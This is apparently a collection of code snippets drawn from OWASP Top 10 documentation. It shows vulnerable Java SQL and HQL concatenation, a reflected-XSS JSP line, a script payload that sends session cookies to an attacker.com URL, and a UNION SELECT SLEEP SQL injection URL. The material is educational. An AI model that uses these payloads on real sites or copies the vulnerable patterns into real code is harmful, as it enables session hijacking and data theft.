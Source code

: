 LANGUAGE: Java
CODE:
```
String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") + "'";
```

LANGUAGE: Java
CODE:
```
Query HQLQuery = session.createQuery("FROM accounts WHERE custID='" + request.getParameter("id") + "'");
```

----------------------------------------

TITLE: XSS Attack Scenario: Session Hijacking via Parameter Injection
DESCRIPTION: Demonstrates a reflected XSS vulnerability where unsanitized user input from a request parameter is directly embedded into an HTML attribute, allowing an attacker to inject malicious JavaScript to steal session cookies. The first code block shows the vulnerable server-side code, and the second shows the attacker's malicious input.
SOURCE: https://github.com/owasp/top10/blob/master/2017/he/0xa7-xss.md#_snippet_0

LANGUAGE: Java/JSP
CODE:
```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

LANGUAGE: HTML/JavaScript
CODE:
```
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

----------------------------------------

TITLE: SQL Injection Attack Payload in URL
DESCRIPTION: This URL demonstrates an attacker's crafted payload for SQL injection. By modifying the 'id' parameter to include '' UNION SELECT SLEEP(10);--', the attacker changes the meaning of the original query, potentially leading to data exfiltration, modification, or denial of service (e.g., via SLEEP).
SOURCE: https://github.com/owasp/top10/blob/master/osib/docs/A03_2021-Injection.md#_snippet_2

LANGUAGE: HTTP Request
CODE:
```
http://example.com/app/accountView?id=' UNION SELECT SLEEP(10);--
```

----------------------------------------

TITLE: Vulnerable Java SQL Query with Unverified Input
DESCRIPTION: This Java code snippet demonstrates a common vulnerability where an application uses unverified user input (from request.getParameter("acct")) directly in a SQL query. If not properly sanitized or parameterized, this can lead to SQL Injection, allowing an attacker to manipulate the query and access unauthorized data.
SOURCE: https://github.com/owasp/top10/blob/master/osib/docs/A01_2021-Broken_Access_Control.md#_snippet_0
